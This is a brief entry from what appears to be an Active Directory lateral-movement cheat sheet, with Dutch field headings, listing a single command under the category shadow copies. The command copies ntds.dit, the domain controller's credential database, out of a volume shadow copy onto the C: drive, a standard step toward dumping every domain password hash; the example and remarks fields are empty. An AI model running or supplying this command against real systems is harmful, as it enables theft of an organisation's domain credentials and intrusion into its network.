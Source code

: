 # 24. AD Lateral Movement — Entry 54

## Categorie

Shadow copies

## Commando

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

## Omschrijving

```
Move the Database copy to the C:\drive
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

